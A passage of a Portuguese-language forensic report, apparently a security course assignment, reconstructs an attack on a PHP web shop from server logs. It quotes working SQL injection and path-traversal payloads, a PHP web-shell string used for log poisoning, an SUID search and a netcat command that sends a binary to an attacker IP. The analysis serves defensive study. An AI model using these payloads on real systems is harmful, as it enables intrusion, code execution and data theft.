    
\includegraphics[width=200]{images/TentativasLogin.png}
    \caption{Tentativas de \textit{Login}}
\end{figure}

\subsubsection{Tabelas}
\par Foi ainda utilizado \textit{SQL Injection} através do campo \textit{product type}, de forma a tentar receber informação relativa às tabelas existentes na base de dados.

\begin{figure}[h]
    \centering
    
\includegraphics[width=380]{images/TentativasTabelas.png}
    \caption{Tentativas de visualizar as tabelas}
\end{figure}

\subsubsection{Escrever em ficheiros}
\par De seguida foi utilizado um método semelhante para tentar escrever no ficheiro \textit{x.txt}, nomeadamente inserir a string \textit{Hello} através do campo \textit{prod} de \textit{details.php}
\begin{figure}[h]
    \centering
    
\includegraphics[width=400]{images/TentativasX.png}
    \caption{Tentativas de alterar x.txt}
\end{figure}

\par Posteriormente o atacante tenta aceder aos conteúdos de \textit{x.txt} de forma a confirmar se a inserção foi bem sucedida mas o servidor  retorna erro \textit{404 Not Found}.

\subsection{Downloads.php}
\par O \textit{downloads.php} foi explorado, com objetivo de explorar uma vulnerabilidade \textit{LFI}, a qual permite acesso a múltiplos ficheiros do sistema. Neste caso foram acedidos os ficheiros \textit{Brochure.pdf}, \textit{index.php}, \textit{config.php} e \textit{display.php}
\par Os pedidos foram todos efetuados segundo o mesmo formato:
\par \textit{GET /download.php?item=../display.php HTTP/1.1}
\bigskip
\par Os resultados foram retornados em bytes, mas permitiram ao atacante obter informação sobre como o sistema funciona e posteriormente aproveitar essa informação para identificar vulnerabilidades a explorar.

\subsection{Display.php}
\par Através do campo \textit{type} de \textit{display.php}, foi possível introduzir comandos de terminal resultando numa série de comprometimentos de segurança explorados pelo atacante, que primeiramente efetuou o seguinte pedido:
\begin{figure}[h]
    \centering
    
\includegraphics[width=300]{images/GetAuthLog.png}
    \caption{Pedido \textit{ls} em apresentado através de \textit{auth.log}}
\end{figure}
\par Este pedido resultou na listagem dos conteúdos de \textit{auth.log} que permitiu a execução dos comandos passados, como é explicado posteriormente. Foi a primeira instância da utilização deste formato que é consequentemente utilizado para a execução de todos os seguintes comandos a partir de \textit{var/log/apache2/access.log}.
\begin{figure}[h]
    \centering
    
\includegraphics[width=238]{images/ComandosApache2Log.png}
    \caption{Comandos efetuados a partir de \textit{var/log/apache2/access.log}}
\end{figure}


\clearpage


\section{Vulnerabilidades exploradas e Objetivos do atacante}

\subsection{\textit{SQL Injection}}

\par \textit{SQL Injection} é uma técnica caracterizada pela injeção de código \textit{SQL} em áreas de \textit{input}, de forma a executar comandos maliciosos com capacidade de recolha/alteração e/ou eliminação de dados, de modo dissimulado.

\par Durante o primeiro passo do ataque à máquina analisada, o atacante focou-se na página de \textit{login}, utilizando os campos do formulário para verificar se o mesmo estava vulnerável a \textit{SQL Injection}, o que se verificou. O atacante começou por colocar uma simples \textit{'} na entrada do email para verificar a existência da vulnerabilidade, o que se confirmou com o servidor a retornar um erro relacionado com a sintaxe de \textit{SQL}. Posto isto, o mesmo procedeu a outras tentativas, sendo que conseguiu realizar o \textit{login} com a primeira conta que se encontrava na base de dados, o \textit{admin}, ao colocar no campo do email \textit{' OR 1=1 -- //}, uma vez que a condição de \textit{SELECT} retornará sempre um utilizador pois 1 é sempre igual 1, ignorando todas as restantes verificações a seguir na \textit{query}, podendo ser colocada qualquer \textit{password}.

\par O atacante continuou a explorar esta vulnerabilidade no entanto, tentou iniciar sessão com um email que não existia na base de dados, o \textit{admin@expressivemotors.net}, uma vez que foi sempre redireccionado para \textit{/account.php?login=user} tal como de acordo com o código de \textit{login}, não obtendo o resultado pretendido.

\begin{figure}[h]
    \centering
    
\includegraphics[width=400]{images/loginphp.png}
    \caption{Código do \textit{login.php} que redireciona para \textit{/account.php?login=user} caso não exista conta}
\end{figure}

\par O ataque continuou passando por explorar o \textit{website} encontrando outras vulnerabilidades do tipo \textit{SQL Injection} em \textit{products.php} e \textit{details.php}. Na primeira vulnerabilidade, o atacante tentou obter informações relativas às tabelas da base de dados no entanto, apesar de a \textit{query} à base de dados estar desprotegidas, as informações apresentadas eram apenas de certas colunas ou se existisse um erro na base de dados, o que levou a que não se obtivesse nenhuma informação relativa. Em relação à segunda, a mesma situação ocorreu pelo que as tentativas feitas de escrita num ficheiro foram executadas, como é possível verificar pelo erro retornado ao fazer o segundo pedido, dizendo que o ficheiro já existia. No entanto, ao analisar a máquina, não foi possível encontrar o ficheiro. 

\subsection{\textit{Local File Inclusion (LFI)}}

\par \textit{Local File Inclusion (LFI)} é um tipo de vulnerabilidade que permite o acesso não autorizado a ficheiros do sistema, permitindo a atacantes aceder a ficheiros sensíveis do servidor. É tipicamente encontrada em sites \textit{php} onde um código com o objetivo de carregar uma página, ficheiros ou outros não filtra corretamente o \textit{input} do utilizador.

\par Ao explorar o ficheiro \textit{download.php} o atacante, tal como foi demonstrado no primeiro trabalho, explorou uma vulnerabilidade deste tipo, tendo realizado \textit{download} de diversos ficheiros \textit{php} sem estes serem executados, permitindo-lhe explorar o código do servidor, de modo a encontrar outras vulnerabilidades. 

\par Os ficheiros que o atacante conseguiu obter seguindo este método foram os seguintes:

\begin{itemize}
    \item \textit{Brochure.pdf}
    \item \textit{index.php}
    \item \textit{config.php}
    \item \textit{display.php}
    \item \textit{products.php}
\end{itemize}

\par Desta forma, foi também permitido ao atacante verificar se os comandos realizados anteriormente através da vulnerabilidade de \textit{SQL Injection} para escrever em um ficheiro tinham tido sucesso, o que não se verificou, uma vez que ao tentar aceder ao ficheiro, o servidor não lho retornou, levando a erros no servidor \textit{Apache} reportados no \textit{log}.

\par Isto é uma grave falha de segurança uma vez que é apenas verificado se o cliente está a tentar aceder a directórios não autorizados caso o nível da \textit{cookie} seja 2 e, tendo em conta que no \textit{header.php} quando não existe \textit{cookie}, é definido o nível como 1, esta verificação praticamente não acontece.

\begin{figure}[h]
    \centering
    
\includegraphics[width=225]{images/downloadphp.png}
    \caption{Conteúdo do ficheiro \textit{getfile.php} utilizado pelo \textit{download.php}}
\end{figure}

\clearpage

\par Além disso, um dos ficheiros obtidos contém as credenciais da base de dados, sendo um comprometimento de informação muito elevado: 

\begin{figure}[h]
    \centering
    
\includegraphics[width=225]{images/configphp.png}
    \caption{Credenciais da base de dados}
\end{figure}

\clearpage


\subsection{\textit{XSS}}

\par \textit{XSS} é uma vulnerabilidade que permite a atacantes injetar \textit{scripts} maliciosos em sites supostamente confiáveis. Durante esta análise foi detetado um tipo de \textit{XSS}, o \textit{Reflected}. Este tipo de vulnerabilidade acontece, normalmente, quando o atacante fornece um \textit{link} com parâmetros de consulta HTTP que são usados para exibir uma página de resultados sem a devida filtração de parâmetros e com potenciais ataques, como foi o caso.

\par Após a análise dos ficheiros descarregados através da vulnerabilidade anteriormente descrita, o atacante provavelmente verificou uma outra que lhe permitia executar código \textit{php} utilizando um tipo de \textit{XSS}, o \textit{Reflected}, ao passar código no parâmetro \textit{lang} sempre que acede a \textit{display.php}. Como é possível ver através do conteúdo do ficheiro, passando o parâmetro \textit{type}, desde que esse tipo devolvesse algum produto, o servidor iria atribuir à variável \textit{\$lang} o conteúdo do parâmetro com o mesmo nome, fazendo \textit{include} posteriormente, permitindo a injeção no código de qualquer parâmetro passado no código \textit{php}, incluindo ficheiros caso estes existam. Isto é um problema grave uma vez que pode ser utilizado para executar código no servidor ou até injetar código com o objetivo de ser executado na máquina do cliente, caso este aceda ao \textit{url} com \textit{XSS}. \textbf{Deste modo, para além de uma vulnerabilidade de \textit{XSS}, esta pode ser também considerada uma vulnerabilidade \textit{LFI} ou \textit{RFI (Remote File Inclusion)}}

\begin{figure}[h]
    \centering
    
\includegraphics[width=250]{images/display.png}
    \caption{Vulnerabilidade no ficheiro \textit{display.php}}
\end{figure}

\par O uso desta vulnerabilidade foi fulcral para o resto do ataque uma vez que permitiu ao atacante não só aceder a qualquer ficheiro com o caminho absoluto, bem como executar o código \textit{php} que estivesse no ficheiro desse caminho, como se verificou.

\par O primeiro teste do atacante foi o \textit{download} do ficheiro \textit{index.php} em base 64, de modo a não ser interpretado, e que após uma comparação com o ficheiro já obtido através da vulnerabilidade anterior de \textit{LFI}, poderia conseguir verificar que de facto o sistema está comprometido. Isto foi realizado com o parâmetro \textit{lang} \textit{php://filter/read=convert.base64-encode/resource=index.php}.

\par O atacante realizou tentativas falhadas de autenticação via \textit{ssh} com um utilizador inválido chamado \textit{<?php system(\$\_GET["cmd"]);?>}, estas que como é de esperar aparecem no ficheiro de \textit{logs} de autenticação do \textit{Linux}:

\clearpage

\begin{figure}[h]
    \centering
    
\includegraphics[width=350]{images/auth.png}
    \caption{\textit{Logs} de Autenticação}
\end{figure}

\par Este nome de utilizador não foi escolhido ao acaso pois, como é possível observar, o mesmo tenta obter o parâmetro \textit{cmd} do \textit{url} utilizado e executa os comandos \textit{shell} passados através desse parâmetro. Com isto feito e, com a vulnerabilidade explorada anteriormente, o atacante aproveitou para executar um comando e obter o resultado ao aceder ao \textit{url} \textit{/display.php?type=1&lang=/var/log/auth.log&cmd=ls} que fará \textit{include} do ficheiro de \textit{logs} de autenticação que, por sua vez, irá conter o comando \textit{php} para executar os comandos \textit{shell} passados no parâmetro \textit{cmd}, sendo retornado o resultado o comando \textit{ls}.

\par Com o objetivo de explorar uma vulnerabilidade semelhante, o atacante acedeu ao \textit{index} do servidor mas, desta vez, com o \textit{User-Agent} no cabeçalho \textit{HTTP} como \textit{<?php system(\$\_GET['cmd']);?>}. Com a explicação já dada deste comando, é possível concluir que o atacante explorou uma nova forma de executar comandos \textit{shell}, que acabou por conseguir. Visto que os \textit{logs} do servidor \textit{Apache} são guardados em \textit{/var/log/apache2/access.log}, o atacante realizou o \textit{include} deste ficheiro através da vulnerabilidade explorada anteriormente, conseguindo novamente acesso à \textit{shell}. O resto do ataque passou por explorar esta última vulnerabilidade.

\par O atacante começou por ver todo conteúdo do diretório onde a \textit{shell} estava a ser executada, neste caso a raiz da máquina, através do comando \textit{ls}. Soube também qual o utilizador da máquina que estava a correr o servidor \textit{Apache} e a consola \textit{shell} através do comando \textit{whoami}, ficando a saber que correspondia ao utilizador \textit{www-data}.

\par Posteriormente, o utilizador verificou qual a mensagem que é apresentada antes do \textit{login} ao ver o conteúdo do ficheiro \textit{/etc/issue} com o comando \textit{cat}, verificou também as diversas informações da \textit{kernel} do sistema através do comando \textit{uname -a}, bem como todos os sistemas de ficheiros montados à máquina com o comando \textit{mount}.

\par Através do comando \textit{docker ps} tentou verificar se existiam alguns \textit{containers} \textit{Docker} em execução no entanto, este comando deu erro por falta de permissões uma vez que apenas o utilizador \textit{root} é que se consegue ligar a uma \textit{socket} \textit{Unix} utilizada para aceder ao \textit{Docker}, como foi reportado nos \textit{logs} de erro do servidor. Além disso também não foi possível a máquina encontrar as configurações do \textit{Docker} uma vez que a variável \textit{\$HOME} não estava definida.

\par Posteriormente viu todos os ficheiros em todos os sistemas de ficheiros montados com o comando \textit{find -mount} e, ainda mais importante, procurou todos os ficheiros na máquina, a partir da raiz, que tinham permissão com o valor 4000, ou seja, que eram executados com todas as permissões, tal como se o utilizador fosse o \textit{root}, mesmo que o utilizador atual não o fosse, com o comando \textit{find / -perm 4000}, que também gerou erros de falta de permissões ao tentar aceder a alguns ficheiros. Estes ficheiros com esta permissão, caso bem explorados, dão aso ao atacante conseguir o máximo de permissões na máquina e obter total controlo.

\par De entre os vários ficheiros que lhe foram retornados, o atacante concentrou-se no ficheiro \textit{/usr/sbin/sysinfo} que serve para obter informações do sistema, executando-o. Através do comando \textit{cat /usr/sbin/sysinfo|nc -w 5 192.168.1.118 1337} foi possivel o atacante enviar para si próprio o ficheiro, abrindo uma ligação \textit{TCP} com o seu endereço de IP na porta 1337 com \textit{timeout} de 5 segundos.

\clearpage

\par De modo a tentar entender o objetivo do atacante e visto que este ficheiro se encontrava em binário, assemelhando-se com um programa compilado de \textit{C}, foi utilizada a ferramenta \textit{Ghidra} para descompilar o mesmo:

\begin{figure}[h]
    \centering
